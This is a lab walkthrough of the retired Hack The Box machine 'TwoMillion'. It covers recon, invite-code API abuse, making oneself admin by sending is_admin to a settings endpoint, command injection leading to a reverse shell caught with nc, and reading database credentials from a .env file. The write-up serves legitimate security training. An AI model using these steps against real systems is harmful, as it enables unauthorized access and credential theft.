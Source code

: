 Because this is still one of my initial boxes, I am going to do this in guided mode (It's available for retired machines).
Starting with `nmap`:
```
# Nmap 7.94SVN scan initiated Thu Aug 28 17:03:04 2025 as: nmap -sC -sV -oA nmap/twomillion 10.10.11.221
Nmap scan report for 10.10.11.221
Host is up (0.11s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx
|_http-title: Did not follow redirect to http://2million.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Aug 28 17:03:15 2025 -- 1 IP address (1 host up) scanned in 11.83 seconds
```

So, we have 2 TCP ports open. As seen, we have `2million.htb` on port 80, so I put this in `/etc/hosts` and open the site in browser.
This is the classic HTB site. Back then we had to find an invite code to join the HTB. I remember I prolly got the code from somewhere else during my college days. But let's do this properly this time!
![[Pasted image 20250828181708.png]]

Upon clicking "Join HTB", we are taken to the page `/invite`:
![[Pasted image 20250828181750.png]]

The `/invite` page loads script from `inviteapi.min.js`. We can beautify the javascript and get to know the function:
```javascript
function verifyInviteCode(code) {
    var formData = {
        "code": code
    };
    $.ajax({
        type: "POST",
        dataType: "json",
        data: formData,
        url: '/api/v1/invite/verify',
        success: function(response) {
            console.log(response)
        },
        error: function(response) {
            console.log(response)
        }
    })
}

function makeInviteCode() {
    $.ajax({
        type: "POST",
        dataType: "json",
        url: '/api/v1/invite/how/to/generate',
        success: function(response) {
            console.log(response)
        },
        error: function(response) {
            console.log(response)
        }
    })
}
```

So, we have a `makeInviteCode` function that can be helpful! It sends a POST request. Let's send this POST request via curl from terminal.
```
(venv) ┌─[htb_lab_truelyyours]─[10.10.16.82]─[truelyyours@parrot]─[~/htb]
└──╼ [★]$ curl -sq -X POST 2million.htb/api/v1/invite/how/to/generate | jq .
{
  "0": 200,
  "success": 1,
  "data": {
    "data": "Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/i1/vaivgr/trarengr",
    "enctype": "ROT13"
  },
  "hint": "Data is encrypted ... We should probbably check the encryption type in order to decrypt it..."
}
```
So we are given a ROT 13 encrypted data. This is decrypted to:
```
In order to generate the invite code, make a POST request to /api/v1/invite/generate
```

Welp, let's send another POST request via curl:
```
{
  "0": 200,
  "success": 1,
  "data": {
    "code": "VDdRMUctUDVHQUYtQURHR0wtR08xVjM=",
    "format": "encoded"
  }
}
```
This base 64 can be decoded to our invite code and voila! We have our HTB account!
```
┌─[htb_lab_truelyyours]─[10.10.16.82]─[truelyyours@parrot]─[~/htb/twomillion]
└──╼ [★]$ curl -sq -X POST 2million.htb/api/v1/invite/generate | jq .data.code -r |base64 -d; echo
1AJW5-GU5EJ-T3Z5O-ZN96C
```

We login on the lading page:
![[Pasted image 20250828183645.png]]

The next Task (6) asks us to find endpoints. So, I send this to BurpSuite and explore endpoints!
On the `/home` page (Dashboard) there many option on the right. So, I explore those and the only new links are `/rules`, `/changelog` and `/home/access`. From the "Access" part, we can download VPN files. So, I intercept this request via BurpSuite and download a VPN file.

When checking different API endpoints, `/api/v1` gives us the list of all the APIs present. (Note that you dont have to do this manually. You can use any of the other tools to traverse different API paths!)
```json
{
  "v1": {
    "user": {
      "GET": {
        "/api/v1": "Route List",
        "/api/v1/invite/how/to/generate": "Instructions on invite code generation",
        "/api/v1/invite/generate": "Generate invite code",
        "/api/v1/invite/verify": "Verify invite code",
        "/api/v1/user/auth": "Check if user is authenticated",
        "/api/v1/user/vpn/generate": "Generate a new VPN configuration",
        "/api/v1/user/vpn/regenerate": "Regenerate VPN configuration",
        "/api/v1/user/vpn/download": "Download OVPN file"
      },
      "POST": {
        "/api/v1/user/register": "Register a new user",
        "/api/v1/user/login": "Login with existing user"
      }
    },
    "admin": {
      "GET": {
        "/api/v1/admin/auth": "Check if user is admin"
      },
      "POST": {
        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
      },
      "PUT": {
        "/api/v1/admin/settings/update": "Update user settings"
      }
    }
  }
}
```

We have 3 "admin" APIs available too! 
`/api/v1/admin/auth`: simply tells us whether we are admin or not.
`/api/v1/admin/vpn/generate`: gives us 401 Unauthorized. So, that can't be used.
`/api/v1/admin/setting/update`: here it tells us to send content as JSON (it's a put request) and asks us for `email` and `is_admin` parameters. So, I go ahead and share it!
![[Pasted image 20250828190352.png]]

Well! Now we are admin!
Let's try to login again and checkout the portal. Nothing changes. So, checking the other two API endpoints for admin, when hitting the `/generate`, it asks for a `username`. As it turns out we can pass anything! So, thing indicated there may be a Command Injection vulnerability here! But it just execute the command, does not show us the output! So, maybe let's simply try to get a reverse shell? Yes we can!
```
┌─[htb_lab_truelyyours]─[10.10.16.82]─[truelyyours@parrot]─[~/htb/twomillion]
└──╼ [★]$ nc -nvlp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.11.221 50396
bash: cannot set terminal process group (1194): Inappropriate ioctl for device
bash: no job control in this shell
www-data@2million:~/html$ 

www-data@2million:~/html$ whoami
www-data
```

Let's quickly prettify it!
```
www-data@2million:~/html$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@2million:~/html$ ls
ls
Database.php  VPN     controllers  fonts   index.php  views
Router.php    assets  css	   images  js
www-data@2million:~/html$ ^Z
```
On our terminal: `stty raw -echo;fg` and then `export TERM=xterm` and bob is your uncle!

Next, I try to search for any password so I do `grep` (cause that is what I know!)
```
www-data@2million:~/html$ grep -i --color "password" ./*
grep: ./VPN: Is a directory
grep: ./assets: Is a directory
grep: ./controllers: Is a directory
grep: ./css: Is a directory
grep: ./fonts: Is a directory
grep: ./images: Is a directory
./index.php:$dbPass = $envVariables['DB_PASSWORD'];
grep: ./js: Is a directory
grep: ./views: Is a directory
```
Looks likes password is being fetched from environment variables (Hence task 9! I guess.).
```
www-data@2million:~/html$ cat .env 
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=<REDACTED>
```